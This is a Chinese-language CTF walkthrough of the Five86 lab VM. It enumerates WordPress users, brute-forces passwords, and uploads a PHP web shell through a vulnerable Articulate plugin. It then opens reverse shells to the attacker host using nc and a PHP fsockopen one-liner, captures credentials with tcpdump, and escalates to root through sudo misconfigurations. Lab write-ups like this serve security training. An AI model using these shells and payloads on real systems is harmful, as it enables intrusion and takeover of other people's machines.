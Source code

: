 
# 0x00环境
攻击机：kali（192.168.1.28）<br />靶机：Five86-1（192.168.1.23）


# 0x01实战

## 端口扫描
```
nmap -sV -A -p- 192.168.1.23
```
![](https://img-blog.csdnimg.cn/4271701875c745b3bdfa80ed76cced5a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=Y26Ds&originHeight=692&originWidth=1280&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以看到开放了21和80端口


## 目录扫描
![](https://img-blog.csdnimg.cn/01e3eec6f2fa47698f11551191c7fcac.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=Hcdtv&originHeight=441&originWidth=1136&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

访问80端口http服务发现是使用wordpress搭建站点<br />![](https://img-blog.csdnimg.cn/b2a6fd304ea446d6b6d4d6e11d0d99f5.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=kPUM0&originHeight=590&originWidth=963&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 漏洞发现
使用wpscan扫描，扫描出来了几个用户名
```
wpscan --url http://five86-2/ -e u
```
![](https://img-blog.csdnimg.cn/0de70789b52b45cca0c537e9c74226ea.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=d51sb&originHeight=710&originWidth=1309&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

将扫描出来的用户名保存到username.txt中，把kali中的rockyou.txt.gz字典的k01内容提取出来作为密码字典进行爆破
```
wpscan --url http://five86-2/ -U username.txt -P /usr/share/wordlists/rockyou.txt
```

大约扫描了0.12%左右，差不多12分钟，扫出两个密码<br />![](https://img-blog.csdnimg.cn/8bf8da81883547f8bd7a56b1876fb9f0.png#crop=0&crop=0&crop=1&crop=1&id=Lyy2n&originHeight=169&originWidth=1797&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

尝试登录后台，使用barney账户成功登录后台<br />![](https://img-blog.csdnimg.cn/f768ffbebfac4294ae0e69adeac5a81f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=l1nnS&originHeight=477&originWidth=1120&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在浏览后台过程中发现使用了`Insert or Embed Articulate Content into WordPress Trial`插件<br />![](https://img-blog.csdnimg.cn/2ec7c1d7274c496c913e97a1d8752be0.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=GaxkJ&originHeight=417&originWidth=1150&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在https://www.exploit-db.com上找到利用文档https://www.exploit-db.com/exploits/46981


## 漏洞利用
创建一个包含index.html、index.php两个文件的 .zip压缩包
```
index.html内容为：<html>hello</html>
index.php内容为：<?php echo system($_GET['cmd']); ?>
```
![](https://img-blog.csdnimg.cn/f8326916843849fa93f2ba3bfc098aa1.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=etLNQ&originHeight=359&originWidth=1269&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

```
zip poc.zip index.html index.php
```
![](https://img-blog.csdnimg.cn/6bae6e183dd84c2f888df3328efa10e9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=VEwtj&originHeight=241&originWidth=1364&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

登录后台新建一篇帖子<br />![](https://img-blog.csdnimg.cn/984bc54744ec4e8c8e84a2171aab925c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=Uxoiy&originHeight=830&originWidth=888&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

选择上传创建的zip文件<br />![](https://img-blog.csdnimg.cn/eb5837a0685e41a2afbbeb8dedf20ce6.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=ygOY7&originHeight=303&originWidth=1024&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
![](https://img-blog.csdnimg.cn/67406b8a13e043d3ba8c9e9d551ed668.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=SOHht&originHeight=759&originWidth=918&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在浏览器访问
```
http://five86-2/wp-content/uploads/articulate_uploads/poc/index.php?cmd=whoami
```
![](https://img-blog.csdnimg.cn/162dab04cd8541ee8715c5678cdfa3a1.png#crop=0&crop=0&crop=1&crop=1&id=gLCiA&originHeight=129&originWidth=982&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

使用nc反弹shell，创建监听
```
nc -vnlp 4444
```
![](https://img-blog.csdnimg.cn/70fe6ea9913e4c4d88ed3d5e7e468caa.png#crop=0&crop=0&crop=1&crop=1&id=Vo9p3&originHeight=120&originWidth=373&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在浏览器执行
```
http://five86-2/wp-content/uploads/articulate_uploads/poc/index.php?cmd=nc%20192.168.1.28%204444%20-e%20/bin/bash
```

![](https://img-blog.csdnimg.cn/56e40f563fc643cba541d593c11b290f.png#crop=0&crop=0&crop=1&crop=1&id=GNB74&originHeight=81&originWidth=1188&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
失败

重构反弹命令
```
http://five86-2/wp-content/uploads/articulate_uploads/poc/index.php?cmd=php%20-r%20%27$sock=fsockopen(%22192.168.1.28%22,4444);$proc=proc_open(%22/bin/sh%20-i%22,%20array(0=%3E$sock,%201=%3E$sock,%202=%3E$sock),$pipes);%27
```

成功反弹<br />![](https://img-blog.csdnimg.cn/d26aa1a2c1454f4c98dec2402a3eca4d.png#crop=0&crop=0&crop=1&crop=1&id=I0lbM&originHeight=163&originWidth=798&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 提权
查看系统内核
```
cat /proc/version
cat /etc/issue
```

![](https://img-blog.csdnimg.cn/8a19c952ded241d29cfd3b58f03d692b.png#crop=0&crop=0&crop=1&crop=1&id=N9N9A&originHeight=128&originWidth=1407&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查找漏洞，对提权没有什么帮助<br />![](https://img-blog.csdnimg.cn/dd6602d26bb44c5a8a1c44c2c5f542a0.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=ZLYYR&originHeight=250&originWidth=1462&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在home目录下发现了stephen账户，而我们在前面爆破出Stephen的密码<br />![](https://img-blog.csdnimg.cn/7de2106f443b486fa5d29730b1a1cb06.png#crop=0&crop=0&crop=1&crop=1&id=jOEiF&originHeight=272&originWidth=224&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

使用stephen账户登录
```
su stephen
```

![](https://img-blog.csdnimg.cn/612099cffa524b45a038fa174a928430.png#crop=0&crop=0&crop=1&crop=1&id=IEbDG&originHeight=187&originWidth=868&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以看到用户stephen在pcap组中，我就想着看看能不能找到一些pcap包或者抓一些数据包看看
```
getcap -r / 2>/dev/null
```

![](https://img-blog.csdnimg.cn/3eb8efc1fb7040c0ad3982074b5e17f6.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=HYlHX&originHeight=292&originWidth=1357&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

输入tcpdump -D来查看查看可以用来抓包的接口
```
tcpdump -D
```

![](https://img-blog.csdnimg.cn/74de314f5ecb453c97dff392a6ee1e48.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=WBqlq&originHeight=263&originWidth=866&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

一个个的来看，在veth7c42377中找到敏感信息
```
timeout 120 tcpdump -w 1.pcap -i veth7c42377
timeout 120是指2分钟
-w是将结果输出到文件
-i是指定监听端口
```

![](https://img-blog.csdnimg.cn/b43ff3a50e614a91bcc9d619a8bfafed.png#crop=0&crop=0&crop=1&crop=1&id=xrXu9&originHeight=189&originWidth=1116&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看抓取到的数据包
```
tcpdump -r 1.pcap
-r是从给定的流量包读取数据
```

![](https://img-blog.csdnimg.cn/be36097c087a40c9a6b4ee58feefb226.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=Txhs0&originHeight=794&originWidth=1019&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
得到了用户名paul和密码 esomepasswford

登录用户paul<br />![](https://img-blog.csdnimg.cn/5e33feae312d43b58f658096260eac63.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=ECRUz&originHeight=207&originWidth=801&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看权限
```
sudo -l
```

![](https://img-blog.csdnimg.cn/63cb236755c9418c997c8a4f02a23c37.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=JbPGE&originHeight=238&originWidth=1177&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

看到可以无密码使用peter的service命令，也就是说可以直接执行peter的/bin/bash
```
sudo -u peter service ../../../../../../bin/bash
```

![](https://img-blog.csdnimg.cn/d764dc9b3d054779970a9c87fe347a41.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=O9URE&originHeight=319&originWidth=1500&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

查看peter用户的权限
```
sudo -l
```
![](https://img-blog.csdnimg.cn/3c1a8ee1f22348e7b9369cc80caeca4f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=qCcVc&originHeight=270&originWidth=1176&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以以root身份无密码运行passwd命令

使用passwd命令修改root的密码
```
sudo passwd root
```
![](https://img-blog.csdnimg.cn/23fb607c22874141b75f22f3ae9bc50a.png#crop=0&crop=0&crop=1&crop=1&id=bWnzM&originHeight=187&originWidth=709&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

登录root账户
```
su root
```
![](https://img-blog.csdnimg.cn/b0ed59099ed84116ac16856bd9722d8b.png#crop=0&crop=0&crop=1&crop=1&id=E1F4q&originHeight=183&originWidth=659&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## final-flag
在root根目录下找到flag<br />![](https://img-blog.csdnimg.cn/469e431546eb45808b64e321f49dfa4d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=RyDZQ&originHeight=562&originWidth=1187&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

